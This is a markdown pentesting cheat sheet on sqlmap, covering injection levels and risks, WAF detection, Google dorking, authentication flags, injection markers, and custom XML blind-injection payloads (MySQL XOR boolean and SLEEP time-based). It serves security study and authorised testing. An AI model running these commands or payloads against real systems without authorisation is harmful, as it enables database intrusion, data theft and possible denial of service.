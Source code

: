 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - server-side-attack
  - sql-injection
  - blind-sql-injection
  - sqlmap
---
```

# 03 - Injection

## Payload Injection Test Levels

### Levels

Level 1 (by default) targets only basic GET and POST request parameters. Even if the flag is not specified it'll always use `--level=1` payloads to inject the URL. The amount of HTTP requests will always be less than 100.

```
$ sqlmap -u "<URL>" --level=1 -p <parameter_1>,<parameter_n>
```

Level 2 will target HTTP cookie header. The HTTP requests will be somewhere between 100 - 200.

```
$ sqlmap -u "<URL>" --level=2 -p <parameter>

$ sqlmap -u "<URL>" --level=2 --cookie="COOKIE=..." --param-exclude="COOKIE"

$ sqlmap -u "<URL>" --level=2 --cookie="COOKIE=..." --skip="cookies"

$ sqlmap -u "<URL>" --level=2 --cookie="COOKIE=..." -p <parameter>
```

Level 3 will will two additional HTTP headers which are **User-Agent** and **Referer** with additional payloads to inject. The **inline query** technique is reached to this level. The HTTP requests will be somewhere between 200 - 500.

```
$ sqlmap -u "<URL>" --level=3
```

Level 4 contains more payloads for certain type of techniques and no additional HTTP header type to inject. The HTTP requests will be somewhere between 500 - 1000.

```
$ sqlmap -u "<URL>" --level=4
```

Level 5 will inject **HTTP Host** with additional payloads contains on numerous techniques. The amount of HTTP requests will be more than 1000.

```
$ sqlmap -u "<URL>" --level=5
```

### Risks

Risks 1 (by default) contains payloads that are deemed safe to test on all levels. Even if the flag is not specified it'll always use `--risks=1` payloads to inject the URL. 

```
$ sqlmap -u "<URL>" --risks=1
```

Risk 2 contains payloads that might cause denial of service (DoS) which is usually for smaller sites. However, sqlmap has mechanisms to attempt and prevent it from happening.

```
$ sqlmap -u "<URL>" --risks=2
```

From this level and beyond has a huge risk by modifying the database to perform certain tasks.

```
$ sqlmap -u "<URL>" --risks=3
```

## Information Gathering

```
$ sqlmap -u "<URL>" --check-waf --identify-waf

$ sqlmap -g "<google_dork>" [--cookies="<google_cookies_session>"] --gpage="<page_number>" --random-agent

$ sqlmap -u "<URL>" --forms
```

```
$ sqlmap -u "<URL>" --crawl=5 --threads=5 --crawl-exclude="logout" --forms --batch --answers="keep testing=Y,sitemap=Y,skip further tests=N"
```

## Authentication Methods

```
$ sqlmap -u "<URL>" --cookie="<key_1>=<value_1>;<key_n>=<value_n>"

$ sqlmap -u "<URL>" --headers="Authorization=<value>"

$ sqlmap -u "<URL>" --auth-type=<Basic | Digest | Bearer | ...> --auth-cred=<username>:<password>

$ sqlmap -u "<URL>" --auth-file=/path/to/file.pem
```

### DBMS Authentication

```
$ sqlmap -u -d <scheme>://<username>:<password>@<IP>:<PORT>/<database_name> --dbms-cred=<username>:<password>
```

## Injection Markers

Specify the parameter

```
$ sqlmap -u "<URL>" -p <parameter>"
```

Skip parameters if they contain negative heuristic results. Proceed further injection on positive heuristics. This can be used to scan multiple URLs.

```
$ sqlmap -u "<URL>" --smart

$ sqlmap -m urls.txt --smart --batch
```

 Specify a HTTP header to inject

```
$ sqlmap -u "<URL>" --headers="<headers>"
```

Specify injection markers inside parameter values (`%INJECT_HERE%` or `*`).

```
$ sqlmap -u "http[s]://<IP>/?<parameter>=%INJECT_HERE%"

$ sqlmap -u "http[s]://<IP>/?<parameter>=*"

$ sqlmap -u "http[s]://<IP>/parameter*/"
```

- Setting boundaries of prefix and suffix to customize the injection.

```
$ sqlmap -u "<URL>" --prefix="'" --suffix="--"
```

## SQL Injection Techniques

### UNION-Based Query 

```
$ sqlmap -u "<URL>" --technique=U --union-cols=<number_of_columns>

$ sqlmap -u "<URL>" --technique=U --union-char="A1B2"

$ sqlmap -u "<URL>" --technique=U --union-from="<table_name>"
```

### Time-Blind Query

- This is also used for blind SQL Injection method

`$ sqlmap -u "<URL>" --technique=T --time-sec=<seconds>`

## Filter Payloads

`$ sqlmap -u "<URL>" --test-filter="<payload_title>"`

`$ sqlmap -u "<URL>" --test-skip="BENCHMARK"`

## Customize Payloads

```
/usr/share/sqlmap/data/xml/payloads
```

https://katsuragi.medium.com/customising-sqlmap-integrating-personalised-injection-payloads-1f4a1500e33b

```xml
    <test>
        <title>MySQL XOR boolean-based blind</title>
        <stype>1</stype>
        <level>1</level>
        <risk>1</risk>
        <clause>1-8</clause>
        <where>1</where>
        <vector>"XOR(IF((SELECT/**/666/**/WHERE/**/[INFERENCE]),444,0))XOR"</vector>
        <request>
            <payload>"XOR(IF((SELECT/**/666/**/WHERE/**/[RANDNUM]=[RANDNUM]),444,0))XOR"</payload>
        </request>
        <response>
            <comparison>"XOR(IF((SELECT/**/666/**/WHERE/**/[RANDNUM]=[RANDNUM1]),444,0))XOR"</comparison>
        </response>
        <details>
            <dbms>MySQL</dbms>
        </details>
    </test>
```

https://ott3rly.com/advanced-sqlmap-customization/

```xml
	<test>
	    <title>XOR time-based blind (query SLEEP)</title>
	    <stype>5</stype>
	    <level>1</level>
	    <risk>1</risk>
	    <clause>1,2,3,8,9</clause>
	    <where>1</where>
	    <vector>[RANDNUM]'XOR(IF(NOW()=SYSDATE(),SLEEP([SLEEPTIME]),0))XOR'[RANDSTR]</vector>
	    <request>
	        <payload>[RANDNUM]'XOR(IF(NOW()=SYSDATE(),SLEEP([SLEEPTIME]),0))XOR'[RANDSTR]</payload>
	    </request>
	    <response>
	        <time>[SLEEPTIME]</time>
	    </response>
	</test>
```

- [Week 7 - Advanced SQLMap](https://www.webhackingtips.com/weekly-tips/week-7-advanced-sqlmap)

---
## References

- [Cybr: sqlmap cheat sheets to help you find SQL injections](https://cybr.com/ethical-hacking-archives/sqlmap-cheat-sheets-to-help-you-find-sql-injections/)
